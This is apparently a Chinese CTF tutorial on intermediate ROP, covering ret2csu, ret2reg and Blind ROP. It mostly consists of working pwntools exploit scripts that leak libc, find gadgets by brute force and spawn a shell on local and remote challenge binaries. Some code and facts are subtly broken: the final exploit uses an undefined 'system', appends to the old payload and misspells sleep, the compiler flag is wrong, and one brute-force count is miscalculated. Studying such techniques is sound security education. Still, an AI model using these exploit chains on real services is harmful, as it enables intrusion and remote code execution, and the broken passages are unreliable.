






# 中级ROP

## ret2csu

在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，很难找到每一个寄存器对应的 gadgets。 这时候，就可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。

```s
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005C0 ; __unwind {
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 ; } // starts at 4005C0
.text:0000000000400624 __libc_csu_init endp
.text:0000000000400624
```

可利用点如下：

- 从 0x000000000040061A 一直到结尾，可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。
- 从 0x0000000000400600 到 0x0000000000400609，可以将 r13 赋给 rdx, 将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，但其实此时 rdi 的高 32 位寄存器值为 0，所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果还可以合理地控制 r12 与 rbx，那么就可以调用想要调用的函数。
- 从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为 rbx+1 = rbp，这样程序就不会执行 loc_400600，进而可以继续执行下面的汇编程序。



例，

```c++
    ssize_t vulnerable_function()
    {
    char buf; // [rsp+0h] [rbp-80h]

    return read(0, &buf, 0x200uLL);
    }
```

程序很简单，溢出点在函数vulnerable_function中，但是程序没有 system 函数地址，也没有 /bin/sh 字符串，需要通过gadgets自行构造
基本利用思路如下

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main（或_start) 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

```python
    from pwn import *
    from LibcSearcher import *

    p = process('./ret2csu')
    elf = ELF('./ret2csu')

    write_got = elf.got['write']
    read_got = elf.got['read']
    start = elf.sym['_start']
    # main_addr = elf.sym['main']
    bss_base = elf.bss()

    csu_front_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A

    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # rbx = 0
        # rbp = 1
        # r12 = write_got(register to function:call qword ptr[r12+rbx*8])
        # r13 = rdx = 8(length)
        # r14 = rsi = read_got(str)
        # r15d = edi = 1(fd)
        payload = 'A'*(0x80+8)
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a'*56   # 0x38 = 56, 栈被抬升，需要填充垃圾数据
        payload += p64(last)
        p.send(payload)
        sleep(1)

    p.recvuntil('Hello, World\n')
    # write(1,write_plt,8)
    csu(0, 1, write_got, 8, read_got, 1, start)

    read_addr = u64(p.recv(8))
    libc = LibcSearcher('read',read_addr)
    libc_base = read_addr - libc.dump('read')
    # system_addr = libc_base + libc.dump('system')
    # log.info("system_addr = %#x",read_addr)
    execve_addr = libc_base + libc.dump('execve')
    log.info("execve_addr = %#x",execve_addr)

    # read(0,bss_base,16)
    csu(0, 1, read_got, 16, bss_base, 0, start)
    # p.send(p64(system_addr)+'/bin/sh\x00')
    p.send(p64(execve_addr)+'/bin/sh\x00')

    p.recvuntil('Hello, World\n')

    # system('/bin/sh')
    # execve('bin/sh')
    csu(0, 1, bss_base, 0, 0, bss_base+8, start)

    p.interactive()
```

## ret2reg

原理：

- 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
- 然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
- reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### BROP

BROP(Blind ROP) 于 2014 年由 Standford 的 Andrea Bittau 提出，其相关研究成果发表在 Oakland 2014，其论文题目是 Hacking Blind，BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

#### 攻击条件

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

#### 基本思路

在 BROP 中，基本的遵循的思路如下

- 判断栈溢出长度
  暴力枚举
- Stack Reading
  获取栈上的数据来泄露 canaries，以及 ebp 和返回地址。
- Blind ROP
  找到足够多的 gadgets 来控制输出函数的参数，并且对其进行调用，比如说常见的 write 函数以及 puts 函数。
- Build the exploit
  利用输出函数来 dump 出程序以便于来找到更多的 gadgets，从而可以写出最后的 exploit。

##### 栈溢出长度
  
直接从1暴力枚举，直到程序崩溃

##### Stack Reading

栈布局如图所示


要向得到 canary 以及之后的变量,首先需要获取overflow的长度，可以通过不断尝试获取。
其次，canary 本身可以通过爆破来获取，攻击条件 2 表明了程序本身并不会因为 crash 有变化，所以每次的 canary 等值都是一样的，所以可以按照字节爆破（32位下最多爆破1024=2^10,64位下最多爆破2018=2^20)

##### Blind ROP

可以直接构造执行write函数的系统调用：

```asm
   pop rdi; ret # socket
   pop rsi; ret # buffer
   pop rdx; ret # length
   pop rax; ret # write syscall number
   syscall
```

不过找到一个syscall基本不可能，不过可以通过找write来获取

1. BROPgadgets
    在 libc_csu_init 的结尾一长串的 gadgets，可以通过偏移来获取 write 函数调用的前两个参数（rdi,rsi）

    

2. find a call write
    可以通过plt表来获取write的地址
3. control rdx
    rdx 只是我们用来输出程序字节长度的变量，只要不为 0 即可。一般来说程序中的 rdx 经常性会不是零。但是为了更好地控制程序输出，我们仍然尽量可以控制这个值。但是，在程序中几乎没有`pop rdx;ret`这样的指令，但是在执行 strcmp 的时候，rdx 会被设置为将要被比较的字符串的长度，所以我们可以找到 strcmp 函数，从而来控制 rdx。

##### 两个步骤

1. 寻找gadgets
    由于不清楚具体的程序是什么样的，所以只能通过控制程序的返回地址到自己设置的值，从而来猜测相应的gadgets。控制程序返回地址时，一般情况如下：
   - 程序直接崩溃
   - 程序运行一段时间后崩溃
   - 程序一直运行而并不崩溃

    所以分两步寻找合理的gadgets：
   - 寻找stop gadgets
      所谓`stop gadget`一般指的是这样一段代码：当程序的执行这段代码时，程序会进入无限循环，这样使得攻击者能够一直保持连接状态。(stop gadget的根本目的是告诉攻击者所测试的返回地址是一个gadgets)
      之所以要寻找 stop gadgets，是因为当我们猜到某个 gadgtes 后，如果我们仅仅是将其布置在栈上，由于执行完这个 gadget 之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会 crash。这样的话，在攻击者看来程序只是单纯的 crash 了。因此，攻击者就会认为在这个过程中并没有执行到任何的useful gadget，从而放弃它

   

   - 识别gadgets
     所以如果我们布置了stop gadget，那么对于我们所要尝试的每一个地址，如果它是一个 gadget 的话，那么程序不会崩溃
     栈上的三种地址：
        - Probe：探针，也就是我们想要探测的代码地址。一般来说，都是 64 位程序，可以直接从 0x400000 尝试，如果不成功，有可能程序开启了 PIE 保护，再不济，就可能是程序是 32 位了
        - Stop：不会使得程序崩溃的 stop gadget 的地址
        - Trap：可以导致程序崩溃的地址
     可以通过在栈上摆放不同顺序的 Stop 与 Trap 从而来识别出正在执行的指令。因为执行 Stop 意味着程序不会崩溃，执行 Trap 意味着程序会立即崩溃。比如：
        - probe,stop,traps(traps,traps,...):如果程序没有崩溃，就可以找到不会对栈进行pop操作的gadget（`ret`、`xor eax,eax;ret`）
        - probe,trap,stop,traps：如果程序没有崩溃，就可以找到只弹出一个栈变量的gadget（`pop rax;ret`、`pop rdi;ret`）
        - probe, trap, trap, trap, trap, trap, trap, stop, traps：如果程序没有崩溃，就可以找到弹出6个栈变量的gadget

    需要注意的是向 BROP 这样的一下子弹出 6 个寄存器的 gadgets，程序中并不经常出现。所以，如果我们发现了这样的 gadgets，那么，有很大的可能性，这个 gadgets 就是 brop gadgets。此外，这个 gadgets 通过错位还可以生成 pop rsp 等这样的 gadgets，可以使得程序崩溃也可以作为识别这个 gadgets 的标志。此外，该地址减去 0x1a 就会得到一个 gadgets，可以供我们调用其它函数。
    此外， probe 可能是一个 stop gadget，只需要让后面所有的内容变为 trap 地址即可判断。因为如果是 stop gadget 的话，程序会正常执行，否则就会崩溃

2. 寻找plt表
   程序的 plt 表具有比较规整的结构，每一个 plt 表项都是 16 字节。而且，在每一个表项的 6 字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的 got 地址进行解析。

    

    此外，对于大多数 plt 调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果发现了一系列的长度为 16 的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了 plt 表。除此之外，我们还可以通过前后偏移 6 字节，来判断我们是处于 plt 表项中间还是说处于开头。
3. 控制rdx
   找到 plt 表之后，就该想办法来控制 rdx 的数值了。在程序中有strcmp的调用情况下，传递给strcmp的参数有四种情况：
      - strcmp(bad,bad)
      - strcmp(bad,readable)
      - strcmp(readable,bad)
      - strcmp(readable,readable)
    其中，readable为可读的地址；bad为非法地址，不可访问，比如说 0x0。只有`strcmp(readable,readable)`程序才会正常执行。（注：在没有 PIE 保护的时候，64 位程序的 ELF 文件的 0x400000 处有 7 个非零字节。）
4. 寻找输出函数
   寻找输出函数既可以寻找 write，也可以寻找 puts。一般现先找 puts 函数。
    - 寻找write@plt:当我们可以控制 write 函数的三个参数的时候，我们就可以再次遍历所有的 plt 表，根据 write 函数将会输出内容来找到对应的函数
    - 寻找 puts@plt:寻找 puts 函数 ，自然需要控制 rdi 参数，在找到了 brop gadget 的前提下，根据 brop gadget 偏移 9 可以得到相应的 gadgets。同时在程序还没有开启 PIE 保护的情况下，0x400000 处为 ELF 文件的头部，其内容为 \ x7fELF。所以我们可以根据这个来进行判断。（`payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)`）

#### 总结

攻击者已经可以控制输出函数了，那么攻击者就可以输出 .text 段更多的内容以便于来找到更多合适 gadgets。同时，攻击者还可以找到一些其它函数，如 dup2 或者 execve 函数。

- 将 socket 输出重定向到输入输出
- 寻找 “/bin/sh” 的地址。一般来说，最好是找到一块可写的内存，利用 write 函数将这个字符串写到相应的地址。
- 执行 execve 获取 shell，获取 execve 不一定在 plt 表中，此时攻击者就需要想办法执行系统调用了。

#### 例子(HCTF2016-出题人失踪了)

```c++
  // brop.c
  // gcc -fno-protecter brop.c -o brop
  #include <stdio.h>
  #include <unistd.h>
  #include <string.h>
  int i;
  int check();
  int main(void){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    setbuf(stderr,NULL);
      puts("WelCome my friend,Do you know password?");
    if(!check()){
          puts("Do not dump my memory");
    }else {
          puts("No password, no game");
    }
  }
  int check(){
      char buf[50];
      read(STDIN_FILENO,buf,1024);
      return strcmp(buf,"aslvkm;asd;alsfm;aoeim;wnv;lasdnvdljasd;flk");
  }
```

##### 确定栈溢出长度

```python
  def getbufferfolw_length():
    i = 1
    while True:
      try:
        p = remote('172.17.0.2',10001)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        p.send('a'*i)
        output = p.recv()
        p.close()
        if not output.startswith('No password'): # 修改了返回地址的低8位，可能新的地址指向可执行的区域
        #if "No password" not in output:
          return i-1
        else:
          i += 1
      except EOFError:
        p.close()
        return i-1

  # length = getbufferfolw_length()
  # print "length = %d"%length
  length = 72
```

可以确定栈溢出长度为 72，且程序没有开启canary

##### 寻找stop gadgets

```python
  def get_stop_addr(length):
    addr = 0x400000
    while True:
      try:
        p = remote('172.17.0.2',10001)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*length + p64(addr)
        p.send(payload)
        if p.recv() == "WelCome my friend,Do you know password?\n": # 根据这个条件匹配程序重新运行即start的地址
          p.close()
          log.success('one success addr : %#x',addr)
          return addr
      except Exception:
        addr += 1
        p.close()
  # start = get_stop_addr(length)
  start = 0x400590
  # main = get_stop_addr(length,start+0x2a)
  main = 0x400686
```

根据匹配输入找到了start的地址：0x400590,以及main的地址：0x400686

##### 识别brop gadgets

根据mian修改偏移寻找通用gadgets

```python
  def get_brop_gadget(length,main,addr):
    try:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(addr) + p64(0)*6 + p64(main) + p64(0)*10   # p64(0)*6,为了找到通用gadgets，p64(0)*10是为了防止addr指向的指令跳过mian
      p.send(payload)
      content = p.recv()
      p.close()
      print content
      if not content.startswith("WelCome"): # 如果找到通过gadgets，正常情况下会重新执行程序，输出"WelCome my friend,Do you know password?"
        return False
      return True
    except Exception:
      p.close()
      return False

  def check_brop_gadget(length,addr): # 用于检测是否为通用gadgers，如果是程序主体部分，也可能输出"WelCome my friend,Do you know password?"
    try:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(addr) + 'A'*8*10 # 如果程序有输出，那么addr属于程序主体部分，没有输出而是抛出异常，说明即是通用gadgets
      p.send(payload)
      content = p.recv()
      p.close()
      return False
    except Exception:
      p.close()
      return True

  def get_gadgets(length,main,offset):  # 通过设置不同的offset值来跳过程序的输入以及输出部分
    addr = main+offset
    while True:
      if get_brop_gadget(length,main,addr):
        print 'possible brop gadget: %#x' % addr
        if check_brop_gadget(length,addr):
          print 'success brop gadget: %#x' % addr
          break
      addr += 1
    return addr

  # gadets_addr = get_gadgets(length,main,0x100)
  gadgets_addr = 0x40079a
  pop_rdi = gadgets_addr + 9
```

##### 确定puts@plt地址

得到了`pop rdi;ret`就可以来获取puts@plt了,如果从0x400000输出，那么会得到'\x7fELF'

```python
  def get_puts_plt(length,pop_rdi,main):
    addr = 0x400000
    while True:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(pop_rdi) + p64(0x400000) + p64(addr) + p64(main)
      p.send(payload)
      try:
        content = p.recv()
        p.close()
        if content.startswith('\x7fELF'):
          print 'find puts@plt addr: %#x' % addr
          return addr
        addr += 1
      except Exception:
        addr += 1
        p.close()

  # puts_plt = get_puts_plt(length,pop_rdi,main)
  puts_plt = 0x400545
```

##### 泄露puts@got地址

可以调用 puts 函数后，通过泄露 puts 函数的地址，进而获取 libc 版本，从而获取拿到shell。从0x400000 开始泄露 0x1000 个字节，这已经足够包含程序的 plt 部分了。

```python
  def leak_puts_addr(length,pop_rdi,puts_plt,leak_addr,main):
    p = remote('172.17.0.2',10001)
    p.recvuntil("WelCome my friend,Do you know password?\n")
    payload = 'A'*length + p64(pop_rdi) + p64(leak_addr) + p64(puts_plt) + p64(main)
    p.send(payload)
    try:
      data = p.recv()
      p.close()
      try:
        data = data[:data.index("\nWelCome")] # puts会以\n输出结束，执行完之后会重新执行程序，输出"WelCome my friend,Do you know password?\n"
      except Exception:
        data = data
      if data == "":
        data = '\x00' # puts会被\x00截断
      return data
    except Exception:
      p.close()
      return None

  def get_dump(length,pop_rdi,puts_plt,main):
    addr = 0x400000
    result = ''
    while  addr < 0x401000:
      data = leak_puts_addr(length,pop_rdi,puts_plt,addr,main)
      if data is None:
        continue
      else:
        result += data
        addr += len(data)
    with open('dump','wb') as f:
      f.write(result)
    print "process dumped!"

  # get_dump(length,pop_rdi,puts_plt,main)
```

将泄露的内容写到文件里用ida以binary模式打开， edit->segments->rebase program 将程序的基地址改为 0x400000，然后找到0x400545(puts_plt),将数据转化为汇编代码




说明puts@got为：0x601018
exp：

```python
  p = remote('172.17.0.2',10001)
  p.recvuntil("WelCome my friend,Do you know password?\n")
  payload = 'A'*length + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
  p.send(payload)
  data = p.recvuntil('\nWelCome', drop=True)  # 通过puts泄露地址，末尾会有\n,puts函数结束之后，会输出"WelCome my friend,Do you know password?\n"
  puts_addr = u64(data.ljust(8, '\x00'))
  libc = LibcSearcher('puts', puts_addr)
  libc_base = puts_addr - libc.dump('puts')
  system_addr = libc_base + libc.dump('system')
  binsh_addr = libc_base + libc.dump('str_bin_sh')
  payload += 'A'*length + p64(pop_rdi) + p64(binsh_addr) + p64(system) + p64(main)
  p.send(payload)
  slee(1)
  p.interactive()
```
